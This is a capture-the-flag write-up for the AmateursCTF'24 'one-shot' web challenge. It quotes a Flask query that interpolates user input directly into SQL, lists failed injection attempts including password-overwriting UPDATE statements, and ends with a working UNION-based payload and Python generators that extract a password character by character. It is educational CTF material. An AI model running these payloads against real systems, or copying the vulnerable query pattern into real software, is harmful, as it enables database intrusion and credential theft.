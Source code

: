 ```yaml
---
CTF: AmateursCTF'24
Category: web
Points: "184"
Date: 2024-04-10
Solved?:
---
```

----
[<- Home](../../)
### TL;DR

**Flag**

```
amateursCTF{go_union_select_a_life}
```

### Details

Description

> my friend keeps asking me to play OneShot. i haven't, but i made this cool challenge! [http://one-shot.amt.rs](http://one-shot.amt.rs/)
> 


Files
- app.py
- Dockerfile

Attemps: 

```
%' UPDATE table_441483544811af4f SET password = 'e62fc4863d9e3cafc38d76972a054a97' WHERE searched=0; --
```

```
%' OR 1=1; UPDATE table_88b01d0d74557926 SET password = 'e62fc4863d9e3cafc38d76972a054a97' WHERE searched = 0 -- 

```

```
%' UNION SELECT password || '~' || searched FROM table_4d749f6101a21d1d--
```

```
%' UNION SELECT NULL,NULL,NULL–-
```

```

%' UNION SELECT password FROM table_eaaed5b956390598--
```

```
%' AND SUBSTRING((SELECT password FROM table_75252aa6908a7060 WHERE searched = 0), 1, 1) > 'm
```


```
%' UNION SELECT password, searched FROM table_8823994f62b93da3; UPDATE table_8823994f62b93da3 SET password = 'e62fc4863d9e3cafc38d76972a054a97'--
```

```
%'UPDATE table_6c1fc953d26be682 SET password = 'e62fc4863d9e3cafc38d76972a054a97' --
```

---

Sadly I didn't manage to solve this chall in time. But the direction was correct.

In `app.py` we can find possible SQL injection in the `/search` query

```
query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
```

where our request just interpolated into the `db.execute` 

So.... final injection looks like this: 

```
' UNION ALL SELECT substr(password, 1, 1) FROM table_id UNION ALL SELECT substr(password, 2, 1) FROM table_id UNION ALL SELECT substr(password, 3, 1) FROM table_id UNION ALL SELECT substr(password, 4, 1) FROM table_id UNION ALL SELECT substr(password, 5, 1) FROM table_id UNION ALL SELECT substr(password, 6, 1) FROM table_id UNION ALL SELECT substr(password, 7, 1) FROM table_id UNION ALL SELECT substr(password, 8, 1) FROM table_id UNION ALL SELECT substr(password, 9, 1) FROM table_id UNION ALL SELECT substr(password, 10, 1) FROM table_id UNION ALL SELECT substr(password, 11, 1) FROM table_id UNION ALL SELECT substr(password, 12, 1) FROM table_id UNION ALL SELECT substr(password, 13, 1) FROM table_id UNION ALL SELECT substr(password, 14, 1) FROM table_id UNION ALL SELECT substr(password, 15, 1) FROM table_id UNION ALL SELECT substr(password, 16, 1) FROM table_id UNION ALL SELECT substr(password, 17, 1) FROM table_id UNION ALL SELECT substr(password, 18, 1) FROM table_id UNION ALL SELECT substr(password, 19, 1) FROM table_id UNION ALL SELECT substr(password, 20, 1) FROM table_id UNION ALL SELECT substr(password, 21, 1) FROM table_id UNION ALL SELECT substr(password, 22, 1) FROM table_id UNION ALL SELECT substr(password, 23, 1) FROM table_id UNION ALL SELECT substr(password, 24, 1) FROM table_id UNION ALL SELECT substr(password, 25, 1) FROM table_id UNION ALL SELECT substr(password, 26, 1) FROM table_id UNION ALL SELECT substr(password, 27, 1) FROM table_id UNION ALL SELECT substr(password, 28, 1) FROM table_id UNION ALL SELECT substr(password, 29, 1) FROM table_id UNION ALL SELECT substr(password, 30, 1) FROM table_id UNION ALL SELECT substr(password, 31, 1) FROM table_id UNION ALL SELECT substr(password, 32, 1) FROM table_id ; --
```

Or, generate this payload via python

```python
#!/usr/bin/env python3 

def solve():
    table_id = '5a8d19f9d1e05594'
    
    payload_temp: str = "UNION ALL SELECT substr(password, {pos}, 1) FROM table_{table_id}"
    payload: list = []
    
    for i in range(1, 33):
        part = payload_temp.format(pos=i, table_id=table_id)
        payload.append(part)
        
    final_payload = "' " + " ".join(payload) + " ; --"
    return final_payload


if __name__ == "__main__":
    print(solve())
```


Or using list comprehension

```python
#!/usr/bin/env python3 

def solve():
    table_id = '5a8d19f9d1e05594'
    
    payload_parts = [
        f"UNION ALL SELECT substr(password, {i}, 1) FROM table_{table_id}"
        for i in range(1, 33)
    ]
    
    payload = "' " + " ".join(payload_parts) + " ; --"
    return payload


if __name__ == "__main__":
    print(solve())

```

From the hidden input we get our table id

![](assets/Pasted%20image%2020240410152627.png)

Sending this payload in search form, we get the password and, eventually, the flag

![](assets/Pasted%20image%2020240410162826.png)

pass: 32feaa5fa11374353d7bfc4801bb1b29 

![](assets/Pasted%20image%2020240410162907.png)

```
amateursCTF{go_union_select_a_life}
```

